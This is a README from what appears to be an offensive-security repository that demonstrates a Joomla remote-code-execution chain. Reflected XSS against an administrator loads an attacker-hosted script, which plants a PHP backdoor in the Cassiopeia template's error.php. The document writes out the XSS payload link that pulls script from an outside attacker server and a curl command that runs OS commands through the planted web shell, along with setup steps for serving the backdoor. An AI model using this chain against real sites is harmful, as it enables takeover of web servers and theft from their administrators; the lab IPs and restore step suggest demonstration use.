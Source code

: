 # [RCE] Patch File

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`patchFileJoomla.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/joomla"`)

2. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/rxss.php?q=<script src=http://192.168.5.5/patchFileJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.5` - web server hosting payload

5. [post exploit] execute OS command

    ```
    curl "http://192.168.5.19/templates/cassiopeia/error.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on exfiltrated data (obtained via `GET` request, when fetching `bd.txt`)

6. [restore file] restore file via GUI

    *Joomla ➔ System ➔ [Templates] Site Templates ➔ Cassiopeia Details and Files ➔ [tab] Editor ➔ /templates/cassiopeia - error.php ➔ (remove backdoor) ➔ Save & Close*

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 5 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/PatchFile/screenshots/Joomla_-_patch_file_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/PatchFile/screenshots/Joomla_-_patch_file_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/e80efadc-b573-4f9a-9f30-806967fd00a5
